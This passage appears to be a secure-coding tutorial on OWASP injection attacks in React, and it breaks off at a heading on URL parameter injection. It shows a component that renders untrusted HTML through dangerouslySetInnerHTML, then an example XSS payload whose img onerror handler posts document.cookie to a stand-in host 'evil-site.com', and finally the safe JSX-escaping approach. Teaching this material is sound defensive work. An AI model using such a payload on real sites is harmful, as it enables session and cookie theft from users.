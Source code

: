 ### what is OWASP attack, explain each, how we can prevent in react application

OWASP (Open Web Application Security Project) lists the most common web application security risks. Here are explanations of some key OWASP attacks and how to prevent them in a React application:

1.  `Injection Attacks`
    A. Description: Injection attacks occur when an attacker injects malicious data into a web application, often through user input, to execute unauthorized commands.

    B. Injection attacks occur when untrusted or malicious data is sent to an application and is processed as code rather than data. In React applications, this can happen through various entry points like user inputs, URL parameters, or API responses.

**Common Types of Injection Attacks in React:**

1. Cross-Site Scripting (XSS)
2. SQL Injection
3. HTML Injection
4. JavaScript Injection

How Injection Attacks Can Happen:

1. Unsafe innerHTML Usage:

```js
// Vulnerable code : This code blindly trusts and renders whatever HTML content is passed in the userData prop using dangerouslySetInnerHTML without any sanitization.

function DisplayUser({ userData }) {
  return <div dangerouslySetInnerHTML={{ __html: userData }} />;
}

// Attacker could pass malicious userData like:
const maliciousData = `
  <img src="x" onerror="
    alert('Hacked!');
    fetch('https://evil-site.com/steal', {
      method: 'POST',
      body: JSON.stringify(document.cookie)
    });
  ">
`;

<DisplayUser userData={maliciousData} />;

// Use JSX Escaping:
// Safe approach - React automatically escapes values
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>;
}
```

2. URL Parameter Injection:
